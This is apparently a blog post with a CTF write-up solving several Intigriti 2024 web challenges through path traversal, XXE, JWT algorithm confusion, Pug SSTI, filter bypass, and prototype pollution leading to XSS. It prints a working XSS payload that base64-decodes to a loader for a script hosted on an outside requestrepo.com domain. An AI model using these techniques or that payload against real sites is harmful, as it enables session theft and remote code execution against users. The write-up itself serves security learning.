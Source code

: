 ```yaml
---
layout: post
title:  "2024 Intigrity CTF, some Web solution"
date:  2024-11-20 10:31:06 +0800
categories: ctf
---
```


## Pizza Paradise, 100p, 395 solves

1. Find `robots.txt` in host page, `https://pizzaparadise.ctf.intigriti.io/robots.txt`

    ```
    User-agent: *
    Disallow: /secret_172346606e1d24062e891d537e917a90.html
    Disallow: /assets/
    ```
2. Open secret login page, find admin username and password hash in client js. `https://pizzaparadise.ctf.intigriti.io/assets/js/auth.js`

    ```
    const validUsername = "agent_1337";
    const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";
    ```
3. Crack sha256 using online tools [https://passwordrecovery.io/sha256/](https://passwordrecovery.io/sha256/). And get password `intel420`

4. Login with valid username and password. After login using image download path traversal to leak php file, there is flag!

## BioCorp, 100p, 389 solves

1. Simple XXE to read flag, too simple


## Cat Club, 100p, 130 solves

1. JWT algorithm confusion attack, [portswigger lab](https://portswigger.net/web-security/jwt/algorithm-confusion/lab-jwt-authentication-bypass-via-algorithm-confusion). Using jwt attack to change username.

2. The changed username is injected to pug template, so just change username to [SSTI payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs) to RCE to read the flag.txt.

## SafeNotes 2.0, 218p, 43 solves

1. Users can create note with html but sanitized by Dompurify. But in `logNoteAccess` function, `const currentUsername = document.getElementById("username").innerText;` is vulnerable to read our payload, so `username` can be controled.

    ```
    function logNoteAccess(noteId, content) {
            // Read the current username, maybe we need to ban them?
            const currentUsername = document.getElementById("username").innerText;
            const username = currentUsername || urlParams.get("name");

            // Just in case, it seems like people can do anything with the client-side!!
            const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');

            fetch("/api/notes/log/" + sanitizedUsername, {
                method: "POST",
                headers: {
                    "Content-Type": "application/json",
                    "X-CSRFToken": csrf_token,
                },
                body: JSON.stringify({
                    name: username,
                    note_id: noteId,
                    content: content
                }),
            })
                .then(response => response.json())
                .then(data => {
                    // Does the log entry data look OK?
                    document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
                    document.getElementById("debug-content-section").style.display = "block";
                })
                .catch(error => console.error("Logging failed:", error));

        }
    ```
2. Bypass regex filter: `const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');
`. Using `....//` to bypass filter, so we can get `../`. Therefore, using client side path traversal, we made fetch to another api with will return our manipulated username. `fetch("/api/notes/log/" + sanitizedUsername) =>fetch("/contact")`.

3. XSS sink, create div with id `debug-content`. and the data is containing our xss payload.

    ```
    document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
    ```

## WorkBreak, 400p, 26 solve

1. Post payload using api `https://workbreak-0.ctf.intigriti.io/api/user/settings`:

    ```
    {"name":"Anon","phone":"","position":"","__proto__":{"tasks":[{"date":"2024-11-20","tasksCompleted":"<img src=x onerror=eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwpzY3JpcHQuc3JjID0gImh0dHBzOi8vY2VoZTcwMTAucmVxdWVzdHJlcG8uY29tIjsKZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))>"}]}}
    ```
2. Client side prototype pollution, in client side, profile will read our data above, noting that `__proto__` is read, chain with `Object.assign` we can pollute the `userSettings` object, so this object is containing `tasks` field now.

    ```
    const userSettings = Object.assign(
                    { name: "", phone: "", position: "" },
                    profileData.assignedInfo
                );
    ```
3. Due to insecure iframe postmessage, we can send xss payload to iframe. Also, the xss in iframe will send xss payload back to parent, triggering parent xss.